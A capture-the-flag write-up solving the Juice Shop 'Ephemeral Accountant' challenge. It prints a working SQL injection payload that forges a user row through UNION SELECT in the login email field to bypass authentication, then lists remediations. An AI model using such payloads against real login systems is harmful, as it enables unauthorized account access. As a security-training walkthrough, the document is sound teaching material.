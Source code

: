 # Juice-Shop Write-up: Ephemeral Accountant

## Challenge Overview

**Title:** Ephemeral Accountant  
**Category:** Injection  
**Difficulty:** ⭐⭐⭐⭐ (4/6)

This challenge involves using SQL injection to simulate the login of a non-existent but temporarily created user "acc0unt4nt@juice-sh.op" without actually adding the account to the database permanently.

## Tools Used

- **Interception Proxy (e.g., Burp Suite):** To capture and modify the HTTP requests.

## Methodology and Solution

### Step 1: Analysis of Login Functionality

Initially, I captured the typical HTTP POST request used for logging in which looks something like this:

```http
POST /rest/user/login HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json

{
  "email": "user@example.com",
  "password": "password123"
}
```

### Step 2: Crafting the SQL Injection Payload

Given the constraints of the challenge (no actual account creation and no persistent modification of the database), I opted for an SQL injection using the `UNION SELECT` strategy to mimic the existence of an account temporarily during the query execution time.

### Step 3: Injecting the Temporary User in the SQL Query

I modified the login request payload to include the SQL injection. The key here was to construct a subquery within the UNION SELECT that mimics a legitimate user record:

```http
POST /rest/user/login HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json

{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "test1234"
}
```

### Solution Explanation

This SQL injection effectively creates a temporary row in the database for the duration of the query. The `UNION SELECT` clause constructs a complete user record, mirroring the structure expected by the application's login processing logic. By setting the `email` field in the injection to match the SQL query expected to retrieve a user, the application processes this "ephemeral" user as if it were legitimately present in the database.

The `WHERE '1'='1'` condition ensures that the injection always succeeds in matching the query context, bypassing the normal authentication process, and the comment `--` ensures any subsequent part of the real SQL query is ignored.

### Remediation

- **Use of Prepared Statements:** Always use parameterized queries or prepared statements to handle SQL queries. This approach ensures that the SQL execution engine treats the inputs as data rather than executable code.
- **Use SQL Server-side verification:** Ensure that the account where user will log really exist in database by double checking it server-side.
- **Input Validation:** Rigorous validation of all user inputs can reduce the risk of injection attacks. Inputs should be checked against expected patterns and sanitized.
